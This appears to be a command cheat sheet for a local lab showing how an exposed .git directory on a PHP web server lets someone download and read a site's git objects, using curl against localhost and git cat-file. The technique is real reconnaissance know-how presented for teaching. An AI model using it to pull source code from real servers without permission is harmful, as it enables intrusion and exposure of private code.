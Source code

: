 # Commands Cheat Sheet

```php -v```

Check if you have PHP installed / the PHP version you have

```mkdir exposed-git```

Create a new directory named ```exposed-git```

```cd exposed-git```

"Change Directory" -> Enter ```exposed-git/```

```git init```

Initialize a new ```.git/``` directory

```echo "<h1>I will be hacked soon!</h1>" > index.php```

Create a file named ```index.php``` with the specified content

```php -S localhost:8000```

Run the PHP server on ```localhost:8000```

```touch config.php```

Create a new file named ```config.php```

```echo "<h1>You really thought you could hack me?</h1>" > error.php```

Create a file named ```error.php``` with the specified content

```git add .```

"Add" all files in the directory to git (i.e. create their objects)

```git commit -m "first commit"```

Create a commit object with the changes made (and added!) since the previous commit

```mkdir .git/objects/f4```

Create a new subdirectory inside ```objects/``` for the incoming file 

```curl localhost:8000/.git/objects/f4/52d4085347400afa8751aae3a5184d73113628 --output ./.git/objects/f4/52d4085347400afa8751aae3a5184d73113628```

Download the file with specified hash from the server and add it in its respective location in the local repository

```git cat-file -p <HASH>```

Print to the console the content of the file specified by hash ```<HASH>``` in human-readable format.

```git cat-file -t <HASH>```

Print to the console the type of the file specified by hash ```<HASH>``` in human-readable format. Possibilities: tree; blob; commit; annotated tag.




